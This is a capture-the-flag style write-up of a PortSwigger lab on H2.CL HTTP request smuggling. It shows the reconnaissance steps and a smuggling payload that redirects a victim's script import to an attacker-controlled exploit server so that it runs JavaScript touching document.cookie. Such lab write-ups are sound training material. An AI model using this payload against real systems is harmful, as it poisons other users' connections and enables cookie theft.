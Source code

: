 
# H2.CL request smuggling

This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests even if they have an ambiguous length.

To solve the lab, perform a request smuggling attack that causes the victim's browser to load and execute a malicious JavaScript file from the exploit server, calling alert(document.cookie). The victim user accesses the home page every 10 seconds.

Hint: 

- Solving this lab requires a technique that we covered in the earlier HTTP request smuggling materials (https://portswigger.net/web-security/request-smuggling/exploiting#using-http-request-smuggling-to-turn-an-on-site-redirect-into-an-open-redirect)

- You need to poison the connection immediately before the victim's browser attempts to import a JavaScript resource. Otherwise, it will fetch your payload from the exploit server but not execute it. You may need to repeat the attack several times before you get the timing right.

---------------------------------------------

References: 

- https://portswigger.net/web-security/request-smuggling/advanced





![img](images/H2.CL%20request%20smuggling/1.png)
![img](images/H2.CL%20request%20smuggling/2.png)

---------------------------------------------



There is a search function whose content is reflected inside an h1 element:



![img](images/H2.CL%20request%20smuggling/3.png)


Searching generates a POST request with the parameter “search”:



![img](images/H2.CL%20request%20smuggling/4.png)


There are requests to “/analytics” when accessing “/”:



![img](images/H2.CL%20request%20smuggling/5.png)


And there are references to a Javascript file in the home page:



![img](images/H2.CL%20request%20smuggling/6.png)


The content in /resources/js/analyticsFetcher.js is:



![img](images/H2.CL%20request%20smuggling/7.png)


I will create this file in the exploit server:



![img](images/H2.CL%20request%20smuggling/8.png)


First we see with “Content-Length: 0”, 1 of every 2 requests fails (is smuggled):



![img](images/H2.CL%20request%20smuggling/9.png)


Of all the folders in the page, if we access "/resources" it redirects to "/resources/" and "/image" to "/image/"





![img](images/H2.CL%20request%20smuggling/10.png)
![img](images/H2.CL%20request%20smuggling/11.png)


Using this payload, we can get a redirect to "/resources" in the exploit server:

```
POST / HTTP/2
...
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


GET /resources HTTP/1.1
Host: exploit-0a4f00f203b90e88815a42a701ee00bd.exploit-server.net
Content-Length: 10

a

```



![img](images/H2.CL%20request%20smuggling/12.png)


We can change the path of the payload in the exploit server so it is accessible in “/resources”:





![img](images/H2.CL%20request%20smuggling/13.png)
![img](images/H2.CL%20request%20smuggling/14.png)
